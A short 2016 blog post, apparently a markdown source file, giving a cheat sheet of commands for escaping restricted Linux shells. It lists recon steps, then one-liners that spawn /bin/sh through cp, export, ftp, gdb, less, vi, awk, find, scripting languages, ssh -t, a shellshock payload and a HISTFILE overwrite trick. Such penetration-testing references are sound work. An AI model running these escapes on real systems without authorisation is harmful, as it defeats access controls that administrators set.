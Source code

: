 ```yaml
---
layout: post
title: "Breaking out of jail shells"
date: 2016-10-23
---
```

This is a quick post on breaking out of linux jail/restricted shells.

Always run your reconnaissance!
* Run **env** to list out exported environment variables.  
* **echo $SHELL** what shell are we in?  
* **echo $PATH** what is our path set to?  
* Run some basic commands what is and isn\'t allowed? **ls,pwd,cp,mv,env,set,export,vi,\.\.\.**  
* Can you just exploit a running process to escalate privileges and not need to escape out of your shell?  

Quick wins from jail
* Can you run **cp**? Just copy a file into your path.
  * **`cp /bin/sh /a/dir/from/path; sh`**
* Is \'/\' allowed?
  * Run **`/bin/sh`**
* Can you use **export**?
  * **`export PATH=/bin:/usr/bin:$PATH`**
  * **`export SHELL=/bin/sh`**
* Do you have access to commands that let you execute different system commands?
  * **ftp: `!/bin/sh`**
  * **gdb: `!/bin/sh`**
  * **more/less/man: `?!/bin/sh`**
  * **vi/vim: `:!/bin/sh`**
  * **scp: `scp -S /tmp/naughty.sh x y:`**
  * **awk: `awk 'BEGIN {system('/bin/sh')}'`**
  * **find `find / -name something -exec /bin/sh \;`**
* Don\'t forget about your favorite language!
  * **python: `python -c 'import os; os.system("/bin/bash")'`**
  * **perl: `perl exec "/bin/sh";`**
  * **ruby: `ruby exec "/bin/sh"`**
  * **lua: `lua os.execute('/bin/sh')`**  

Quick wins from outside jail
* Just execute commands before your shell is loaded.
  * **`ssh user@10.10.10.10 -t "/bin/sh"`**
* Don\'t start the rc profile
  * **`ssh user@10.10.10.10 -t "bash --noprofile"`**
* Try shellshock
  * **`ssh user@10.10.10.10 -t "() { :; }; /bin/bash"`**  

Getting creative
* Using **tee** to write a script.
  * **`echo 'evil code' | tee script.sh`**
* History file
  * Set **HISTFILE** variable to a file you want to overwrite
  * Set **HISTSIZE** variable to **0** then immediately to **100**
  * Execute lines that should be written to your file
  * Log out and back in again.

Looking for more ways? [Google](http://bfy.tw/8Lq2)
